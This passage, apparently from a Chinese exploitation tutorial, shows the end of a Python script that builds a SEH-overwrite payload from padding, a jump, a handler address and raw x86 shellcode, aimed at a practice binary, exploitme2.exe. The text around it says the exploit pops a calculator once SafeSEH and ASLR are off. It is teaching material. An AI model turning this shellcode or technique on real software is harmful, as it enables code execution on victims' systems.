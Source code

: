 ```
            "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
            "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
            "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
            "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
            "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
            "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
            "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
            "\x30\x03\xc6\xeb\xdd")
    data = 'a'*84 + jmp + handler + shellcode
    f.write(data + 'c' * (10000 - len(data)))

```

用WinDbg运行脚本并打开exploitme2.exe（没有启用SafeSEH保护机制的版本）。现在，不出我们所料，计算器被弹出了！成功利用，但是我们已经改写了一些代码。同时，在这里我们假设不启用ASLR保护机制（对于现在来说）

0x01 检测实验
=========

* * *

如果利用没法在你的系统上成功执行，那么可能是因为在栈上的空间有限。可以参考文章[http://drops.wooyun.org/tips/9948](http://drops.wooyun.org/tips/9948)中的More space on stack部分进行解决